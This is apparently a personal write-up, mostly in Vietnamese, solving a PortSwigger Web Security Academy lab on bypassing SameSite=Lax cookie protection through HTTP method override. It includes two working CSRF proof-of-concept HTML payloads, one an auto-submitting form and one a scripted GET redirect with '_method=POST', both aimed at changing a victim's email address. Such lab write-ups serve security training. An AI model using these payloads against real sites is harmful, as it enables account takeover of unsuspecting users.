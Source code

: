 ### Web Academy PortSwigger
* Lab: [SameSite Lax bypass via method override](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override)
* Descript: This lab's change email function is vulnerable to CSRF.
* To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.
* Solved and Writeup by Me ^^!

![Ảnh chụp màn hình 2023-12-05 141055](https://hackmd.io/_uploads/BkgBkP3Sp.png)

Truy cập Lab , ta có giao diện như sau: 

![Ảnh chụp màn hình 2023-12-05 141420](https://hackmd.io/_uploads/rJRI1v2H6.png)

Vào đăng nhập vơí user wiener , chặn request và xem xét:

![Ảnh chụp màn hình 2023-12-05 141455](https://hackmd.io/_uploads/SJowkDhra.png)

![Ảnh chụp màn hình 2023-12-05 141624](https://hackmd.io/_uploads/H1VqyvhBp.png)

Ta thấy có vẻ như không có cơ chế bảo vệ CSRF , sau khi tải payload đơn giản sau lên exploit server, email được thay đổi như bên trên:  
```
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0ac7006c036ff84b80f51c6500ad003e.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="abc123&#64;gmail&#46;com" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>
```
Sau một hồi tìm tòi , ta thử lại cách trên trong Chrome ( Trước đó là trên FOX browser), kết quả là bị log out ra và đưa tới trang login.
Nguyên do là trình duyệt Chrome tự động thêm thuộc tính mặc định SameSite: Lax 

*Nói thêm về cơ chế SameSite: Lax :Trong trường hợp có request chéo trang (cross-site),  Cookies Session không được bao gồm trong POST request, cũng như được tạo bởi Script , Iframe, Image,..==> do vậy , hạn chế được các cuộc tấn công CSRF , nhưng cũng hạn chế một số chức năng.*

Do đó , dựa theo đề bài có nội dung override method , ta tạo một đoạn html nhằm sử dụng chức năng thay đổi email sau : 

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
      document.location = "https://0ac7006c036ff84b80f51c6500ad003e.web-security-academy.net/my-account/change-email?email=trantung1
      @gmail.com&_method=POST";
    </script>
  </body>
</html>
```
![Ảnh chụp màn hình 2023-12-05 160511](https://hackmd.io/_uploads/B1yAYv2ST.png)


Presss Deliver to Victim , and View exploit 
and.... Lab Solved






